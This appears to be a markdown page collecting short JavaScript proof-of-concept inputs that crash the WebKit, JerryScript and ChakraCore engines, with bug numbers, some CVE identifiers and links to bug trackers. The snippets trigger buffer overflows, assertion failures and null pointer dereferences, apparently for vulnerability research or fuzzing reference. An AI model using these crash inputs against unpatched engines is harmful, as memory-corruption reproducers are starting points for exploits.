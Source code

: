 # Webkit

>  [相关漏洞查询网址](https://bugs.webkit.org/)

## buffer overflow

```javascript
// Bug 188694
function foo(oo) {
    oo.x = 4;
    oo.y = 4;
    oo.e = oo;
    i=9;
    oo.e = 7;
    oo.f = 8;
}
function Foo() {
    foo(this);
}
noInline(foo);
for (var i = 0;i<100000;i++) {
    g();
}
function g(){
    foo({f:8});
    new Foo();
    new Foo();
    new Foo();
}
```

## Assertion Failure

```javascript
// Bug 188917
function foo(o){}

function test() {
    	var floatArray = foo(new Float64Array(0));
}

for (var i = 0; i < 100000; ++i){
    test();
}
test();
```

```javascript
// Bug 173305 
createBuiltin(`function (a) {})`);
```
## Null Pointer Deref

```javascript
// Bug 172957
class A { };
class B extends A {
    constructor(a, b) {
        var f = () => b ? this : {};
        if (a) {
            var val = f() == super();
        } else {
            super();
            var val = f();
        }
    }
};
for (var i=0; i < 10000; i++) {
    try {
        new B(true, true);
    } catch (e) {
    }
    var a = new B(false, true);
    var c = new B(true, false);
}
```

# Jerryscript

> [漏洞查询相关网站](https://github.com/jerryscript-project/jerryscript/issues)
## buffer overflow
```javascript
// Bug 2238
fn_expr = function NaN(a){
'use strict';
NaN(0);
}
fn_expr(1);
```

```javascript
// CVE-2018-11418
// Bug 2237
(new RegExp("[\u0020")).exec("u");
```

```javascript
// CVE-2017-18212
// Bug 2140
RegExp("[\x0");
```

```javascript
// CVE-2018-11419
// Bug 2230
((new RegExp("[\u0")).exec("u"));
```

# ChakraCore

> [l漏洞查询相关网站](https://github.com/microsoft/ChakraCore/issues)
## Null Pointer Deref

```javascript
// Bug 5532
function g()
{
    for (var i=0;;++i)
    {
        for (var j=0;;++j){
             var a =0;
        }
    }
} 

g();

```



